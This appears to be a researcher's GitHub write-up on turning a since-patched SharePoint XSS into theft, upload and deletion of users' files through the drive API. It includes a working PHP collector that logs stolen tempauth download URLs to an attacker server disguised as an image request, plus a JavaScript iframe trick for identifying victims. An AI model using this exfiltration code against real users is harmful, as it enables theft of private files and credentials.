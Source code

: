 # SharePoint JavaScript/API Investigation

Due to discovery of XSS in SharePoint on-premise and their hosted solutions, I was asked to see what could be done with the XSS. I hosted a few JavaScript files during the investigation since I was able to inject a script tag and use the src attribute to link to the hosted files.

I also was able to use a version of SharePoint that had the aspx file rendering and I was able to use that to create files with embedded payloads and made the files look like they belonged in SharePoint.

What was I able to do if a user accessed the XSS:
- Steal any user's files (hidden,private,public)
- Delete any user's files
- Upload any file to the user's sharepoint drive
- Anything else the API allowed us to do

The interactions happened against the drive API and also could be done using graphql.

## How could you steal file?
Well, the API created URLs with an authorization token. By stealing that URL, it was easy to just access

For the listing of all of a user's files, it was simple enough to just call out to the user's drive API (depends on API version):
- var t = "/_api/v2.1/drive/items/root";
- var t = "/_api/v2.0/drive/items/root/children";

There are just enough changes in version 2.0 to 2.1 of the drive API to have to write separate scripts.

The API provided us with a url with the tempauth parameter that allows anyone with that URL access the item for a decent amount of time.
```
https://REDACTED-my.sharepoint.com/personal/REDACTED/_layouts/15/download.aspx?UniqueId=REDACTED&Translate=false&tempauth=<<<<TOKEN!!!>>>>&ApiVersion=2.1
```

I also used a not so elegant version of the stealing of the token. It basically would show up as an image (`/tiny.png?steal_bs=`) access with a querystring stored in access.log. Then I decided it may be more useful to use a file such as spimage.php.

### What is in spimage.php?

```
<?php
header("Access-Control-Allow-Origin: *");
header("Access-Control-Allow-Headers: *");
header("Access-Control-Allow-Methods: *");
header('Content-Type: image/png');

$url = $_GET["auth_url"];
$file_name = $_GET["name"];
if(isset($_GET['auth_url']) && !empty($_GET['name']))
{
	$data = "<p><a href='".base64_decode($url)."'>".$file_name."</a></p>\r\n";
	file_put_contents('./REDACTED/xfil.html', $data , FILE_APPEND);
}
echo file_get_contents('http://REDACTED/tiny.png');
?>

```

## Upload and Delete
The Upload and Delete required obtaining tokens from another requests This can be seen in the following function calls of delete_files.js
- stealBearer
- getDigest

In the Upload I obtained the token in a slightly different way:
- getDigest

## Who is our victim?
The victim is anyone who accesses the XSS or pages (if you are able to use aspx). 

I did not have a lot of time to look into discovering who the victim would be, so I had to come up with a quick and dirty way of identifying them for requests needing their username:
```
document.write("<iframe src='/' id='whoareu' border=0 width=1 height=1></iframe>");const myTimeout = setTimeout(whoareu, 2000);
function whoareu() {
	var theurl=document.getElementById('whoareu').contentWindow.location.href;
	user = new URL(theurl).pathname.split('/')[2];
	// REST OF FUNCTION REMOVED AS NOT NECESSARY
}
```
In the above, I needed an iframe to hit the root of the SharePoint instance and it would redirect the user to their directory. Then I could parse the information out to be used for the Upload and Delete functions.

## What happened?
Well, the XSS was patched earlier this year and my other XSS findings in the past have been patched. Depending on deployment, you may be able to just create aspx files to embed your payloads. However, there are always 3rd party components that have plenty of bugs.

My favorite part while working on this was when it executed against someone I was testing with. I was able to download their keepass file that was only accessible to them.

